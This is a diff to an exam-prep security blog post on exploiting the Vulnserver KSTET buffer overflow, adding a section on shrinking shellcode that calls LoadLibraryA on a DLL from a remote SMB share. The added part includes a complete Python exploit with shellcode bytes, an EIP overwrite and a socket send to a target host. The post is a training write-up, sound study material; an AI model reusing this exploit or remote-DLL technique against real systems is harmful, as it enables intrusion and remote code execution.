

Before and after one commit to br-sn/br-sn.github.io, a Jekyll site: the page built from _posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md, in a window 1280 px wide and 1400 px high, scrolled down 7744 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 8735 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md

````diff
--- a/_posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md
+++ b/_posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md
@@ -181,11 +181,11 @@ smbserver.py s .
 We continue execution and step into the call to LoadLibraryA, noticing our string has made it to the stack:
 ![call loadlibrary](/images/callloadlibrary.png)
 
-### Conclusion
+### Small, smaller, smallest
 
-The final length of our shellcode, including the adjustment of ESP, is 41 bytes. This is markedly shorter than a usual reverse shell and should also be shorter than most other Win32 API calls to gain code execution, such as `WinExec`, `ShellExecute` and `system`.
+The length of our shellcode used so far, including the adjustment of ESP, is 41 bytes. This is markedly shorter than a usual reverse shell and should also be shorter than most other Win32 API calls to gain code execution, such as `WinExec`, `ShellExecute` and `system`.
 
-There is also room to cut this one even shorter by using dotless decimal notation for the IP address. The IP address used here, `192.168.0.11` can be represented in dotless decimal as `3232235531`. If we replace this and convert the entire string to hex, we end up with:
+There is however room to cut this one even shorter by using dotless decimal notation for the IP address. The IP address used here, `192.168.0.11` can be represented in dotless decimal as `3232235531`. If we replace this and convert the entire string to hex, we end up with:
 
 ```
 .dll
@@ -194,4 +194,46 @@ There is also room to cut this one even shorter by using dotless decimal notatio
 3223
 \\32
 ```
-This removes the need for the padding and cuts down the total shellcode size to 37 bytes, down from 41. Still not quite as small as socket re-use, but definitely a useful tool to have on hand when dealing with cramped buffer spaces.
+This removes the need for the padding and cuts down the total shellcode size to 36 bytes, down from 41. Still not quite as small as socket re-use, but have can we go further?
+
+Luckily, Windows is quite helpful in loading libraries for us. The documentation mentions the following:
+>If the string specifies a module name without a path and the file name extension is omitted, the function appends the default library extension .dll to the module name. To prevent the function from appending .dll to the module name, include a trailing point character (.) in the module name string.
+
+So all we need to do is specify the name of our DLL without the extension, cutting a further 4 bytes off our string.
+
+For now, it seems we can get a reverse shell using the following code:
+```python
+#!/usr/bin/python
+
+import sys
+import socket
+
+shellcode = ""
+shellcode += "\x83\xec\x7c" #sub esp,0x7c
+shellcode += "\x56"
+shellcode += "\x68\x5c\x73\x5c\x73"
+shellcode += "\x68\x35\x35\x33\x31"
+shellcode += "\x68\x33\x32\x32\x33"
+shellcode += "\x68\x5c\x5c\x33\x32"
+shellcode += "\x54"
+shellcode += "\xB8\x9E\x9A\xE2\x77"
+shellcode += "\xFF\xD0"
+
+
+buf = "KSTET "
+buf += "A"*2
+buf += shellcode
+buf += "A"*(68-len(shellcode))
+buf += "\x0C\x10\x40" #eip
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect(("192.168.0.12",9999))
+print s.recv(1024)
+s.send(buf)
+print s.recv(1024)
+s.close()
+```
+Resulting in the following call being made using LoadLibraryA:
+![smallest?](/images/smallest.png)
+
+Thanks for reading, feel free let me know if you found a way to cut down on this size even further.
````
